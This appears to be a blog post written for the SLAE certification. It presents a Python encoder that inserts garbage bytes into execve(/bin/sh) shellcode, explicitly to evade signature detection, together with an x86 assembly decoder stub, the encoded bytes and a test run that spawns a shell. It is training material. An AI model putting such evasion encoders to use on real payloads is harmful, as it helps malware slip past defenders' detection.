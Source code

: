 ```yaml
---
title:  "[SLAE 4] Custom Encoding Scheme"
---
```


![Logo](/assets/images/tux-root.png)

## Custom encoding scheme
For the 4th assignment of [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/), I've made a custom encoding scheme, with the same purpose as the insertion encoder: *__avoid signature detection by inserting garbage bytes into the shellcode__*.

The encoding scheme works as follows: we start from a working shellcode and insert garbage blocks, containing a random garbage byte and the offset to the next garbage block. The distance between the garbage blocks is a random value between 2 modifiable limits. In this way we can control the final length of the shellcode and the amount of garbage inserted.

The encoded shellcode will look like this:
```
---------------------------------------------------------
| n0 | . . .| b1 | n1 | . . . . .| b2 | n2 | . . . |END |
---------------------------------------------------------

ni  - next garbage byte position
bi  - garbage byte 
END - END of the shellcode marker
```

The encoding is done in a Python script:
```python
#!/usr/bin/python
'''
    Python Insertion Encoder   
'''
 
import random
 
# Execve-stack shellcode - execve(/bin/sh,..)
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
encoded = ""
 
idx = 1
 
# Control  the frequency of garbage through a displacement
MIN_DEP = 3     # min number of shellcode bytes after which to inject garbage
MAX_DEP = 4     # max ...
dep = random.randint(MIN_DEP, MAX_DEP)
n = idx + dep
encoded += '\\x%02x' % n
END = "\\xf0\\x0d"
 
for x in bytearray(shellcode) :
    if idx == n: 
        # We have reached an insertion point
        dep = random.randint(MIN_DEP, MAX_DEP)
        n = idx + dep
 
        encoded += '\\x%02x' % random.randint(1,255)
        encoded += '\\x%02x' % n
        idx += 2
     
    # Add a shellcode byte
    encoded += '\\x%02x' % x
    idx += 1
 
encoded += END
 
print encoded
# Print in nasm friendly form
print encoded.replace("\\x", ",0x")[1:]
 
print 'Initial len: %d, encoded len: %d' % (len(shellcode), 
    len(encoded)/4)
```

The decoding is done in the assembly shellcode: 
```asm
global _start   

section .text
_start:
 jmp short call_shellcode

decoder:
 pop esi                     ; beginning of the encoded shellcode
 lea edi, [esi]              ; shellcode decoded in place. Edi - dest pointer
 xor eax, eax            
 mov al, byte [esi]          ; position of next garbage byte
 xor ebx, ebx
    push 1                      ; index into the shellcode
    pop ecx

decode: 
    cmp ecx, eax
    jnz short shellcode_byte    ; shellcode byte found 
    add ecx, 2                  ; garbage byte found. Advance 2 bytes
    mov al, byte [esi + eax + 1]; position of next garbage byte    
shellcode_byte:                 ; byte part of real shellcode
 mov bl, byte [esi + ecx]
 mov byte [edi], bl
 inc edi                     ; advance destination
 inc ecx                     ; advance source
 cmp byte [esi + ecx], 0xf0  ; check for END marker
    jnz decode
    cmp byte [esi + ecx + 1], 0x0d
    jnz decode
    jmp esi                     ; shellcode decoded in-place. Jump to it



call_shellcode:

 call decoder
 EncodedShellcode: db 0x04,0x31,0xc0,0x50,0x06,0x08,0x68,0x2f,0x15,0x0b,0x2f,0x12,0x0e,0x73,0x85,0x11,0x68,0x4e,0x14,0x68,0x96,0x18,0x2f,0x62,0xd8,0x1c,0x69,0x6e,0xf9,0x20,0x89,0xe3,0xa9,0x23,0x50,0x6d,0x26,0x89,0x60,0x29,0xe2,0x0e,0x2d,0x53,0x89,0x3b,0x30,0xe1,0xaa,0x34,0xb0,0x0b,0x55,0x37,0xcd,0xe2,0x3b,0x80,0xf0,0x0d
```

And now to test this:
* Encode the _`execve-stack`_ shellcode using the Python script above.
* Disassemble and examine the encoded shellcode
* Define the shellcode bytes at the end of the assembly decoder
* Assemble
* Test using a C program which executes the payload 

```bash
$ ./custom-encoder.py 
\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d
0x05,0x31,0xc0,0x50,0x68,0xb1,0x08,0x2f,0x58,0x0c,0x2f,0x73,0x71,0x10,0x68,0x68,0x88,0x14,0x2f,0x62,0x42,0x17,0x69,0x6a,0x1a,0x6e,0xba,0x1d,0x89,0xf5,0x21,0xe3,0x50,0xe0,0x25,0x89,0xe2,0xaf,0x29,0x53,0x89,0x83,0x2d,0xe1,0xb0,0x33,0x30,0x0b,0x1a,0x33,0xcd,0x66,0x36,0x80,0xf0,0x0d
Initial len: 25, encoded len: 56

$ echo -ne "\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d" | ndisasm -b 32 -
00000000  0531C05068        add eax,0x6850c031
00000005  B108              mov cl,0x8
00000007  2F                das
00000008  58                pop eax
00000009  0C2F              or al,0x2f
0000000B  7371              jnc 0x7e
0000000D  106868            adc [eax+0x68],ch
00000010  88142F            mov [edi+ebp],dl
00000013  624217            bound eax,[edx+0x17]
00000016  696A1A6EBA1D89    imul ebp,[edx+0x1a],dword 0x891dba6e
0000001D  F5                cmc
0000001E  21E3              and ebx,esp
00000020  50                push eax
00000021  E025              loopne 0x48
00000023  89E2              mov edx,esp
00000025  AF                scasd
00000026  295389            sub [ebx-0x77],edx
00000029  832DE1B033300B    sub dword [dword 0x3033b0e1],byte +0xb
00000030  1A33              sbb dh,[ebx]
00000032  CD66              int 0x66
00000034  3680F00D          ss xor al,0xd

$ ./compile.sh 
  [+] Assembling egghunter
  [+] Linking egghunter
\xeb\x2d\x5e\x8d\x3e\x31\xc0\x8a\x06\x31\xdb\x6a\x01\x59\x39\xc1\x75\x07\x83\xc1\x02\x8a\x44\x06\x01\x8a\x1c\x0e\x88\x1f\x47\x41\x80\x3c\x0e\xf0\x75\xe8\x80\x7c\x0e\x01\x0d\x75\xe1\xff\xe6\xe8\xce\xff\xff\xff\x04\x31\xc0\x50\x06\x08\x68\x2f\x15\x0b\x2f\x12\x0e\x73\x85\x11\x68\x4e\x14\x68\x96\x18\x2f\x62\xd8\x1c\x69\x6e\xf9\x20\x89\xe3\xa9\x23\x50\x6d\x26\x89\x60\x29\xe2\x0e\x2d\x53\x89\x3b\x30\xe1\xaa\x34\xb0\x0b\x55\x37\xcd\xe2\x3b\x80\xf0\x0d
  [+] House cleaning
  [+] Done!
$ ./shellcode
Shellcode Length:  112 bytes
$ whoami
liv
$
```


The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

##### _This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_
